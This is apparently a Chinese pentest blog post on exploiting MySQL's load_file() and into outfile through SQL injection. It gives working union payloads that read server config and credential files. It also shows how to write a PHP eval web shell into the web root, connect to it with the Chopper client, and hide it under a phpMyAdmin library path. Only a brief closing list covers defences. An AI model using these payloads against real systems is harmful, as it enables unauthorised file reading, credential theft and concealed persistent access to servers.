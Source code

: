 +++
date = "2016-06-20T08:10:27+08:00"
description = ""
draft = false
tags = ["injection"]
title = "SQL注入之MySQL函数利用"
topics = ["Pentest"]

+++

### 0x00 load_file()
* 条件:

> ```
1. 要有file_priv权限
2. 知道文件绝对路径
3. 能使用union
4. 对web目录有读权限  
注：若过滤了单引号，则可以将函数中的字符进行hex编码
```

* 一般步骤
    * 读/etc/init.d下的东西，这里有配置文件路径

    > ```
    ?id=1' union select 1,2,load_file('/etc/init.d/httpd')
    ```

    * 得到web安装路径  

    > ```
    ?id=1' union select 1,2,load_file('/etc/apache/conf/httpd.conf')
    ```

    * 读取密码文件

    > ```  
    ?id=1' union select 1,2,load_file('/site/xxx.com/conf/conn.inc.php')
    ```

### 0x01 into outfile
* 条件：

> ```
1. 要有file_priv权限  
2. 知道网站绝对路径  
3. 要能用union  
4. 对web目录有写权限  
5. 没有过滤单引号
```

* 一般方法

> 当知道路径时，可以直接用?id=1 union select "<?php @eval($_POST['c']);?>" into outfile("C:/phpStudy/WWW/a.php")

* 其他方法 
    * 登陆phpMyAdmin  
    
    > ```
    use test;  选择数据库为test
    create table aaa(bbb varchar(64));   在数据库中创建一个表aaa
    insert into aaa values("<?php @eval($_POST['c']);?>");   在aaa中插入一条数据<?php @eval($_POST['c']);?>
    select * from aaa into outfile 'C:/phpStudy/WWW/a.php';  将aaa中的数据导出到文件a.php
    ```

    * localhost:80/a.php能访问  
    
    > ```
    drop aaa;  //删除建立的表
    ```

    * 然后菜刀连接  

    > ```
    1. 菜刀连接：  
        C:\phpStudy\WWW\a.php
    2. 更改shell的名字并将shell放在较隐蔽的地方：  
        C:\phpStudy\WWW\phpMyAdmin\setup\lib\common.php
    ```

### 0x02 防御
* 数据库连接账号不要用root权限
* php关闭报错模式
* mysql账户没有权限向网站目录写文件